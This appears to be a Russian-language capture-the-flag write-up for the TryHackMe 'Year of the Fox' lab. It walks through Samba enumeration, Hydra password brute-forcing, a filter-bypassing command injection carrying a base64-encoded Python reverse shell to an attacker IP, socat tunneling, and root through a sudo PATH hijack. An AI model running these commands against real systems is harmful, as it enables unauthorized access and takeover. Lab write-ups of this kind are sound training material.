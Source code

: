 # Year of the Fox

:white_check_mark:  [**Enum4linux**](#enum4linux)

:white_check_mark: [**Hydra**](#hydra)

:white_check_mark: [**Command Injection(filtering)**](#command_njection_filtering)

:white_check_mark: [**Socat tunneling**](#socat_tunneling)

:white_check_mark: [**Shutdown**](#shutdown)

:white_check_mark: [**PATH**](#PATH)

___

## Enumeration
Сканируем ip командой:
```
nmap -sV -sV fox.thm
```

```
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX
```

При переходе на сайт, нас встречает панель авторизации. Попробуем найти данные.

<a name="enum4linux"></a>

## Samba
Используем enum4linux для перечисления самбы
```
enum4linux fox.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/1.png)

Получаем имена двух пользователей: fox, rascal.

## Hydra

Сбрутим пароль для пользователя rascal:
```
hydra -l rascal -P /usr/share/wordlists/rockyou.txt -f fox.thm http-get -t 64
```

```
[80][http-get] host: fox.thm   login: rascal   password: <REDACTED>
```

<a name="command_njection_filtering"></a>

## Command Injection(filtering)

Проходим авторизацию и попадаем на страницу.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/3.png)

Мы имеем строку поиска файлов, найдем уязвимость. Запускаем Burp Suite и перехватываем запрос. В запросе фильруются специальные символы, кроме " **\\** ".

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/5.png)

Наш экплоит будет выглядеть так:
```
"\";command;\""
```

Команда обратной оболочки:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.61.235",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Заодируем команду в base64 и модифицируем эксплоит:
```
"\";echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuOC42MS4yMzUiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc= | base64 -d | bash;\""
```

Получаем shell. Закидываем linpeas. Видим, что открыт локальный порт 22.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/6.png)

Закинем бинарник nmap и просканируем локальную сеть.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/7.png)

Это порт ssh.

Просмотрим конфиг sshd_config

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/8.png)

Пользователь fox имеет доступ к ssh.

<a name="socat_tunneling"></a>

## Socat tunneling
Закинем бинарник socat, чтобы перенаправить 22 порт на порт 5555:

```
./socat tcp-l:5555,fork,reuseaddr tcp:localhost:22
```

<a name="hydra"></a>

Теперь мы можем сбрутить пароль от ssh юзера fox:
```
hydra -l fox -P /usr/share/wordlists/rockyou.txt -s 5555 fox.thm ssh
```

```
[5555][ssh] host: fox.thm   login: fox   password: <REDACTED>
```

Подключаемся по ssh
```
ssh -p 5555 fox@fox.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/9.png)

<a name="shutdown"></a>

## Priviledge Escalation

Просмотрим права командой: **sudo -l**.
```
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```

Отправим файл shutdown и просмотрим с помощью strings.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/10.png)

Двоичный файл вызывает другой файл под названием **poweroff**.

Посмотрев на выводы команды sudo -l на своей машине и атакуемой, можно заметить отличия.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/11.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/12.png)

<a name="PATH"></a>

Эта машина не использует secure_path в конфигурации sudoers.

Обычно, когда мы вызываем команду sudo, она игнорирует стандартный PATH и вместо него использует безопасный PATH, определенный в /etc/sudoers. Это делает очень сложным выполнение эксплойтов для манипуляции PATH. Но на этой машине нет secure_path, а значит, мы должны иметь возможность использовать PATH для получения root.
```
cp /bin/bash /tmp/poweroff

chmod +x /tmp/poweroff

export PATH=/tmp:$PATH

sudo /usr/sbin/shutdown
```

Получаем root

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/13.png)

Флаг находится не здесь, найдем его командой:
```
find /home -group root -type f 2>/dev/null
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Year_of_the_Fox/14.png)